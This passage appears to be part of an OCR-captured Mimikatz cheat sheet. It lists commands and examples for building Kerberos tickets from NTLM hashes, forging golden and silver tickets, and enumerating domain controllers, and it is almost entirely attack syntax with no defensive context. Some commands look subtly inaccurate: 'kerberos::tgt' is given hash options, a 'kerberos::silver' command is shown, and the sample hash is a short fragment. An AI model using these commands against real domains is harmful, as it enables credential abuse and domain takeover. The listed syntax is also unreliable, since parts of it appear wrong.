 11. **Create a Kerberos Ticket**
    - **Command:**
      ```bash
      mimikatz # kerberos::tgt /user:<username> /rc4:<NTLM hash> /domain:<domain>
      ```
    - **Example:**
      ```bash
      mimikatz # kerberos::tgt /user:administrator /rc4:5baa61e4 /domain:example.com
      ```
    - **Description:** Creates a Kerberos Ticket Granting Ticket (TGT) for a user.

12. **Generate a Ticket Granting Ticket (TGT)**
    - **Command:**
      ```bash
      mimikatz # kerberos::tgt /user:<username> /rc4:<NTLM hash> /domain:<domain> /sid:<SID>
      ```
    - **Example:**
      ```bash
      mimikatz # kerberos::tgt /user:administrator /rc4:5baa61e4 /domain:example.com /sid:S-1-5-21-...
      ```
    - **Description:** Generates a TGT with a specified SID.

13. **Generate a Golden Ticket**
    - **Command:**
      ```bash
      mimikatz # kerberos::golden /user:<username> /rc4:<NTLM hash> /domain:<domain> /sid:<SID>
      ```
    - **Example:**
      ```bash
      mimikatz # kerberos::golden /user:admin /rc4:5baa61e4 /domain:example.com /sid:S-1-5-21-...
      ```
    - **Description:** Creates a Kerberos Golden Ticket.

14. **Generate a Silver Ticket**
    - **Command:**
      ```bash
      mimikatz # kerberos::silver /user:<username> /rc4:<NTLM hash> /service:<service name> /sid:<SID>
      ```
    - **Example:**
      ```bash
      mimikatz # kerberos::silver /user:admin /rc4:5baa61e4 /service:HTTP/krb.example.com /sid:S-1-5-21-...
      ```
    - **Description:** Generates a Kerberos Silver Ticket.

15. **Enumerate Domain Controllers**
    - **Command:**
      ```bash
      mimikatz # net::domain
      ```
    - **Example:**
      ```bash
      mimikatz # net::domain
      ```
    - **Description:** Enumerates domain controllers in the environment.
